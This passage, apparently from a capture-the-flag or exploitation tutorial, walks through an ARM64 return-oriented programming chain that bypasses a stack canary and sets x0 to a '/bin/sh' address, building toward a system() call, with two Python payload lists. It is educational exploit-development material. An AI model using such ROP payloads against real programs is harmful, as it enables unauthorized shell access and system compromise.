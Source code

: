 So, the 8 chars of junk will be popped into `x29` and we'll head to our next gadget, `ldr x19, [sp, #0x10]; ldp x29, x30, [sp], #0x20; ret;` Here we are loading into `x19` the value on the stack at `sp + 0x10`. After which we pop values off the stack into `x29` and `x30` and increment the SP by 0x20. This serves no purpose other than I was working on a different exploit chain and removing this part kept breaking the current ROP chain. But, we get our next gadget into `x30` and that is where will will continue the ROP chain. 

Here is the payload so far: 

```python
payload = flat([
    'a' * 104, # Junk
    canary, # Account for the canary
    'b' * 8, # Account for base pointer
    mov_x2_sp, # Saving SP into x2
    'c' * 8, # More Junk for x29
    canary,  # Another Canary
    'd' * 8, # More Junk
    ldr_x19 #  Next junk gadget, explained above
])
```

The final gadget we'll use is `ldr x0, [x2, #0x10]; ldp x29, x30, [sp], #0x10; ret`. Here we'll use what we set up in the first gadget. This gadget will load the value at `x2`, which is the SP, plus 0x10 which we can have be a stack address of `/bin/sh` if we send the string in the exploit chain correctly! Then, just like we've been doing we'll load a base pointer and return. Here is the exploit so far. 

```python
payload = flat([
    'a' * 104,
    canary,
    'b' * 8,
    mov_x2_sp,
    'c' * 8,
    canary,
    'd' * 8,
    ldr_x19,
    binsh,
    ldr_x0_x2,
])
```
With this we can save the stack pointer, then load a stack address relative of it which can be `/bin/sh`. Pretty cool huh? Next, all we've gotta do is call system. Its going to be on the stack with the rest of the ROP chain, but to understand where let's have a look at the ROP chain on the stack before the first gadget is executed. 
